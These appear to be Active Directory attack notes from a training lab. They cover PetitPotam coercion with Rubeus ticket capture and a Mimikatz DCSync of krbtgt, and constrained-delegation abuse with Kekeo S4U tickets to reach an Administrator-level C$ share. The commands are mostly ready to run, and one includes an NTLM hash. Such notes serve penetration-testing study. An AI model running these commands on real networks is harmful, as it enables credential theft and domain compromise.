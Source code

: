 ## We can also use PetitPotam.exe (https://github.com/topotam/PetitPotam) on dcorp-appsrv, PetitPotam uses EfsRpcOpenFileRaw function of MS-EFSRPC (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC(so that can be done through a non-domain machine and the function runs even if the service is not enabled:
`PetitPotam.exe dcorp-appsrv dcorp-dc`
## On dcorp-appsrv:
`Rubeus.exe monitor /interval:5`
## Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
`Rubeus.exe ptt /tikcet:`
## Once the ticket is injected, run DCSync:
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

## CONSTRAINED DELEGATION 
## Constrained Delegation with Protocol Transition means The web service requests a ticket from the Key Distribution Center (KDC) for someones's account without supplying a password, as the websvc account. The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that someones's account is not blocked for delegation. To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

## Enumerate users and computers with constrained delegation enabled ,Using PowerView (dev)
`Get-DomainUser–TrustedToAuth`
`Get-DomainComputer–TrustedToAuth`
## Using ActiveDirectory module:
`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`

##  Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv
## Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):
`kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f`
## Using s4u from Kekeo, we request a TGS  
`tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneyco rp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL`
## Using mimikatz, inject the ticket:
`Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LO
CAL.kirbi"'`
`ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$`
